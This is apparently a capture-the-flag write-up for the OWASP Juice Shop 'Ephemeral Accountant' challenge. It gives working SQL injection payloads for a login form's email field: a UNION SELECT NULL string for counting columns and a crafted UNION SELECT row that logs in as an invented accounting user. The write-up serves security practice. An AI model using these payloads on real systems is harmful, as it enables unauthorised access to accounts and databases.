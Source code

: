 # Ephemeral Accountant

Exfiltrate the entire DB schema definition via SQL Injection.

# Tools used

- Browser
- swisskyrepo/PayloadsAllTheThings

# Solve

Bruteforcing the column ammount using 

```
' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--
```

![error column](../../../assets/ephimeral-accountant-1.png)

Until the error is wrong email or password instead of column size of right and left not matching or something like that.

![correct ammount of column](../../../assets/ephimeral-accountant-2.png)

Craft this payload. Use as the email

```
' UNION SELECT 67,'acc0unt4nt@juice-sh.op','acc0unt4nt@juice-sh.op','password','accounting','123','1.2.3.4','/assets/public/images/uploads/default.svg','',1,12983283,133424,NULL--
```

and use password as the password (basically make it the same as the 4th column)

![login page](../../../assets/ephimeral-accountant-3.png)